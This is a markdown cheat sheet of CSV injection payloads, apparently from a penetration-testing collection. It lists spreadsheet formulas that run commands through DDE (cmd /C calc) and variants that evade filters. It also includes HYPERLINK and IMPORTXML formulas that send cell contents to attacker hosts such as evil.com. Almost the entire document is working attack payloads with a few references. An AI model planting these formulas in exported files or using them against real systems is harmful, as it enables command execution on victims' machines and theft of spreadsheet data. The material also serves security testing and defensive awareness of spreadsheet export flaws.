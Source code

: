 # CSV Injection

### Payloads

```
-1+1+cmd|' /C calc'!A0
-2+3+cmd|' /C calc'!A0
+2+3+cmd|' /C calc'!A0
@2+3+cmd|' /C calc'!A0

# no warning to user
=HYPERLINK("http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.")

# untested see "excel-export-attacks.pdf" for examples of DDE
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=DDE("cmd";"/C calc";"!A0")

%0A-2+3+cmd|' /C calc'!D2      # %0A is NewLine which excel will
                               # ref: https://bugzilla.mozilla.org/show_bug.cgi?id=1259881
                               #      https://bugzilla.mozilla.org/show_bug.cgi?id=1263581

# XML Import: http://georgemauer.net/2017/10/07/csv-injection.html
=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")"
```

### Filter Evasion:

```
# Ref slide 21: https://www.slideshare.net/exploresecurity/camsec-sept-2016-tricks-to-improve-web-app-excel-export-attacks
# Slide deck is available in downloads: excel-export-attacks.pdf
=cmd| ...
-cmd| ...
"=cmd| ..."
=(cmd| ...)
=0-cmd|...
+cmd|...
""=cmd|
@sum(cmd|...)
```

### References

* [DDE Function](https://wiki.openoffice.org/wiki/Documentation/How_Tos/Calc:_DDE_function)
* [Weaponizing](https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within/)
* [Excel Export Attacks](../downloads/excel-export-attacks.pdf)
